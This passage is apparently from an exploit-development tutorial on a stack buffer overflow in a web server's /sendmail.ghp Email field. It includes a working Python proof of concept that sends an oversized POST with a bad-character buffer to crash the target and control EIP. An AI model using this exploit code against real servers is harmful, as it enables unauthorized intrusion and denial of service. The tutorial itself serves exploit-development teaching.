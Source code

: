 Here we are declaring a 30 byte buffer to hold some chars, and the strcpy function is passing a user supplied argument into this buffer without any form of size checks. Basically, the function will copy all
the user supplied data until a null byte is encountered, which marks the end of the input string. A buffer overflow occurs when an argument larger than the allocated buffer is supplied.
This also explains why having a null byte in your code can mess things up. This character is what marks the end of the supplied string, so having it in your payload (or EIP address) can truncate our
payload and therefore crash the target.

The most straightforward way to check for bad characters is to send a buffer from ```x01``` to ```xff```, then inspecting memory to see if all our characters made it onto the stack.

Modify our PoC to look like below:

``` ruby
#!/usr/bin/python

import socket
import sys

if len(sys.argv) < 2:
        print "Usage: python EFS.py [IP]\n"
        print "i.e python  EFS.py 192.168.56.101\n"
        exit(1)

EIP= "B"*4

BadChar = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

crash = BadChar + "A"*(4072-len(BadChar))+EIP+"C"*(4144-4076)
buffer  ="POST /sendmail.ghp HTTP/1.1 \r\n"
buffer +="Email=" + crash + "&getPassword=Get+Password"

EFS = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
EFS.connect((sys.argv[1], 80))
EFS.send(buffer)
EFS.close()
```
When we run it, our application crashes, and immediately we can see that our EIP contains ```\x43\x43\x42\x42```. Seeing as the payload lengths are the same, we can already see some characters got mangled in the stack.
If we examine the stack we can see that ```\x25\x26\x27\x2b``` where either ommitted or replaced by another character. Lets take these out of our bad char buffer and send the payload again.
